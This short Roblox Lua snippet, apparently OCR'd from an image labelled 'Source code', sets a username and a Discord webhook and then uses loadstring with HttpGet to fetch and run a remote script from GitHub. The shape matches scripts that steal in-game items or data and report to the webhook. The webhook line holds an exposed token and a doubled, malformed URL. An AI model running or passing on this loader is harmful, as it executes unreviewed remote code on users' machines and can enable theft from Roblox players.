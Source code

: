 Username = 'Fakedigitoooo_2'
Webhook = 'https://discord.com/api/webhooks/https://discord.com/api/webhooks/1313098621138243624/DgoebNiegw5UFOf_sAAIMD9_zOLxoCs2sehLxALtuXkaPd9nQRHAZDR1t6AzQ28V-DJO'

loadstring(game:HttpGet("https://raw.githubusercontent.com/terabite-max43/shitescripts/main/configs.lua"))()
